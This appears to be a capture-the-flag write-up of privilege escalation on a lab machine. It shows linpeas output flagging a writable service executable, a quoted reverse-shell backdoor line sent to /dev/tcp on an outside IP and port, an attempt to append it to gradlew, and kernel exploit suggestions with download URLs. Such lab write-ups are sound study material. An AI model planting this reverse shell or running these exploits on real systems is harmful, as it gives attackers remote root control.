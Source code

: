 To use the script, we must make the script executable:

```
ofbiz@bizness:~$ chmod +x linpeas.sh
chmod +x linpeas.sh
ofbiz@bizness:~$ ls
ls
linpeas.sh  user.txt
ofbiz@bizness:~$ ./linpeas.sh

```

Running the `linpeas.sh` script, I can find out basic information about the Linux target machine and also any useful information to escalate to the root. Based on the highlights in the results, `.service` files are listed as a 95% chance to PE (privilege escalate):

```
╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
You can't write on systemd PATH

```

Checking the provided link, HackTricks shows an exploit for writeable `.service` files:

> Check if you can write any .service file, if you can, you could modify it so it executes your backdoor when the service is started, restarted or stopped (maybe you will need to wait until the machine is rebooted). For example create your backdoor inside the .service file with ExecStart=/tmp/script.sh

```
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.10.14.83/4444 0>&1"
```

I attempted to add the above code to the bottom of the `gradlew` file being called by `ofbiz.service`. Without any way to `systemctl restart` that service, I could not get that code to execute.

After more unstructured attempts, I decided I needed another hint. I was going the wrong way. I was told to revise the `linpeas` output

Within the exploits section, I decided to check those:

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-3490] eBPF ALU32 bounds tracking for bitwise ops

   Details: https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story
   Exposure: probable
   Tags: ubuntu=20.04{kernel:5.8.0-(25|26|27|28|29|30|31|32|33|34|35|36|37|38|39|40|41|42|43|44|45|46|47|48|49|50|51|52)-*},ub
untu=21.04{kernel:5.11.0-16-*}
   Download URL: https://codeload.github.com/chompie1337/Linux_LPE_eBPF_CVE-2021-3490/zip/main
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: ubuntu=(20.04|21.04),[ debian=11 ]
   Download URL: https://haxx.in/files/dirtypipez.c
```